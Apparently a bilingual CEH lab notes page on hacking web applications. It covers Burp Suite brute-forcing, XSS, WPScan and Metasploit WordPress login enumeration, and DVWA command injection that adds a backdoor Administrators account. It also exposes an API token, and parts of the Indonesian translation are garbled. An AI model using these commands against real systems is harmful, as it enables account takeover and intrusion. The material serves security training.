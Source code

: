 # Bagian 01: Web Applications Concepts/Konsep Aplikasi Web

**Modul 14: Hacking Web Applications/Meretas Aplikasi Web**

**Lab2-Task1: Perform a Brute-force Attack using Burp Suite/Melakukan Serangan Brute-force menggunakan Burp Suite**

- Set proxy for browser: 127.0.0.1:8080
- Burpsuite
- Type random credentials
- capture the request, right click-\&gt;send to Intrucder
- Intruder-\&gt;Positions
- Clear $
- Attack type: Cluster bomb
- select account and password value, Add $
- Payloads: Load wordlist file for set 1 and set 2
- start attack
- **filter status==302**
- open the raw, get the credentials
- recover proxy settings

---------------------------------------
atau saya harus menulisnya dengan bahasa indonesia agar mudah di mengerti:

- Atur proksi untuk browser: 127.0.0.1:8080
- bersendawa
- Ketikkan kredensial acak
- tangkap permintaan, klik kanan-\&gt;kirim ke Intrucder
- Penyusup-\&gt;Posisi
- Hapus $
- Jenis serangan: Bom cluster
- pilih nilai akun dan kata sandi, Tambahkan $
- Payloads: Muat file daftar kata untuk set 1 dan set 2
- mulai menyerang
- **status filter==302**
- buka mentahnya, dapatkan kredensialnya
- memulihkan pengaturan proxy

**Lab2-Task3: Exploit Parameter Tampering and XSS Vulnerabilities in Web Applications/Memanfaatkan Gangguan Parameter dan Kerentanan XSS di Aplikasi Web**

- Log in a website, change the parameter value (id )in the URL
- Conduct a XSS attack: Submit script codes via text area
------------------------------

- Masuk ke situs web, ubah nilai parameter (id) di URL
- Melakukan serangan XSS: Kirimkan kode skrip melalui area teks

**Lab2-Task5: Enumerate and Hack a Web Application using WPScan and Metasploit/Menghitung dan Meretas Aplikasi Web menggunakan WPScan dan Metasploit**


- **wpscan --api-token hWt9qrMZFm7MKprTWcjdasowoQZ7yMccyPg8lsb8ads --url**  **http://10.10.10.16:8080/CEH**  **--plugins-detection aggressive --enumerate u**
  - **--enumerate u: Specify the enumeration of users**
  - **API Token: Register at** [**https://wpscan.com/register**](https://wpscan.com/register)
  - **Mine: hWt9qrMZFm7MKprTWcjdasowoQZ7yMccyPg8lsb8ads**
- service postgresql start
- msfconsole
- **use auxiliary/scanner/http/wordpress\_login\_enum**
- show options
- **set PASS\_FILE password.txt**
- **set RHOST 10.10.10.16**
- **set RPORT 8080**
- **set TARGETURI**  **http://10.10.10.16:8080/CEH**
- **set USERNAME admin**
- run
- Find the credential
--------------------------------------

- **wpscan --api-token hWt9qrMZFm7MKprTWcjdasowoQZ7yMccyPg8lsb8ads --url** **http://10.10.10.16:8080/CEH** **--plugins-detection agresif --enumerate u**
 - **--enumerate u: Tentukan enumerasi pengguna**
 - **Token API: Daftar di** [**https://wpscan.com/register**](https://wpscan.com/register)
 - **Punyaku: hWt9qrMZFm7MKprTWcjdasowoQZ7yMccyPg8lsb8ads**
- layanan postgresql dimulai
- msfconsole
- **gunakan alat bantu/pemindai/http/wordpress\_login\_enum**
- tampilkan opsi
- **atur PASS\_FILE kata sandi.txt**
- **setel RHOST 10.10.10.16**
- **atur RPORT 8080**
- **tetapkan TARGETURI** **http://10.10.10.16:8080/CEH**
- **setel admin NAMA PENGGUNA**
- berlari
- Temukan kredensialnya

**Lab2-Task6: Exploit a Remote Command Execution Vulnerability to Compromise a Target Web Server (DVWA low level security)/Memanfaatkan Kerentanan Eksekusi Perintah Jarak Jauh untuk Membobol Server Web Target (keamanan tingkat rendah DVWA)**


- If found command injection vulnerability in an input textfield
- | hostname
- | whoami
- **| tasklist| Taskkill /PID /F**
  - **/PID: Process ID value od the process**
  - **/F: Forcefully terminate the process**
- | dir C:\
- **| net user**
- **| net user user001 /Add**
- **| net user user001**
- **| net localgroup Administrators user001 /Add**
- Use created account user001 to log in remotely

------------------------------------------------------------

- Jika ditemukan kerentanan injeksi perintah di kolom teks input
- | nama host
- | siapa saya
- **| daftar tugas| Pembunuhan Tugas /PID /F**
 - **/PID: Nilai ID proses dari proses**
 - **/F: Menghentikan proses secara paksa**
- | direktori C:\
- **| pengguna bersih**
- **| pengguna bersih pengguna001 /Tambahkan**
- **| pengguna bersih pengguna001**
- **| administrator grup lokal bersih pengguna001 /Tambahkan**
- Gunakan akun yang dibuat user001 untuk login dari jarak jauh

-------------------------------------------------------------

## Konsep
aplikasi web

[Definisi](../definitions/definitions_W.md#web-application)

Uniform resource locator (URL)/Pencari sumber daya seragam (URL)

[Definisi](../definitions/definitions_U.md#uniform-resource-locator)
